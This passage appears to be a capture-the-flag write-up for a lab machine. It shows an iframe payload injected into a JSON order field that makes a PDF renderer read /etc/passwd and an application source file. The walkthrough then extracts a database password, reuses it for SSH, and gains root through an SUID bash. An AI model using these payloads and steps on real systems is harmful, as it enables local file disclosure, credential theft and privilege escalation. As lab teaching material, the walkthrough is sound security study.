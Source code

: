 More specifically, we can change text to an iframe to include local files as such:


```json
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a91",
      "title": "<iframe src=/etc/passwd>",
      "description": "It's an axe.",
      "image": "axe.jpg",
      "price": 12,
      "currentStock": 21,
      "__v": 0,
      "amount": 2
    }
  ]
}

```

Because the output is too small, we can also change the width and height:

```
<iframe src=/etc/passwd height=1000 width=500>
```

Once we've done this, we can once again see the `angoose` user

We can then traverse the files until we find `/var/www/dev/index.js`, in which we find the database URI as:

```js
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost"
```

We now have the password:

`angoose:IHeardPassphrasesArePrettySecure`

We can use this to log in through ssh and get the user flag

# Privilege Escalation

Running `sudo -l` gets us the following:

```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

This doesn't do much for us, since the files that angoose can operate on are only writable by root.

However, we can look for suid binaries with `find / -perm -u=s -type f 2>/dev/null`

This shows us that `bash` is an suid binary

This means we can run `bash -p` to get a privileged shell.

We can then get the root flag
